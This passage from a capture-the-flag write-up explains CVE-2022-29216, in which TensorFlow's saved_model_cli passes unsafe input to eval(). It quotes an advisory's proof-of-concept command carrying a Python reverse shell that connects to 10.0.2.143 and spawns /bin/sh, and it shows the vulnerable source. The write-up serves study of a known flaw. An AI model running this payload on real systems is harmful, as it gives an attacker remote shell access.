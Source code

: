
And if it does score higher than 0.5, it sends it to
`preprocess_input_exprs_arg_string`, which is imported from at the top:

    
    
    from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string
    

### CVE-2022-29216

#### Background

I’ll try to figure out what `preprocess_input_exprs_arg_string`, Googling for
the function name returns a bunch of info about CVE-2022-29216:

![image-20230224095418749](https://0xdfimages.gitlab.io/img/image-20230224095418749.png)

The top result is [this
advisory](https://github.com/advisories/GHSA-75c9-jrh4-79mc), which contains a
POC for a reverse shell:

    
    
    saved_model_cli run --input_exprs 'hello=exec("""\nimport socket\nimport
    subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")'
    --dir ./ --tag_set serve --signature_def serving_default
    

The issue comes in `preprocess_input_exprs_arg_string`, where if it’s called
with `safe=False` (like it is above), then the user input is passed to `eval`:

    
    
    def preprocess_input_exprs_arg_string(input_exprs_str, safe=True):
    ...[snip]...
      for input_raw in filter(bool, input_exprs_str.split(';')):
    ...[snip]...
        if safe:
    ...[snip]...
        else:
          # ast.literal_eval does not work with numpy expressions
          input_dict[input_key] = eval(expr)  # pylint: disable=eval-used
      return input_dict
    

#### preprocess_input_exprs_arg_string

While I have all I need at this point to escalate on Forgot, I’m interested to
understand what this code does, and see what changes were made to the code to
patch this vulnerability.

I’ll walk through this in a [short
video](https://www.youtube.com/watch?v=S3BrESgR_Gg) and in text below:

The full source for this function is
[here](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/tools/saved_model_cli.py#L740-L775)
in the tensorflow repo (though this is the current patched version). I’ll
click “History” at the top right:
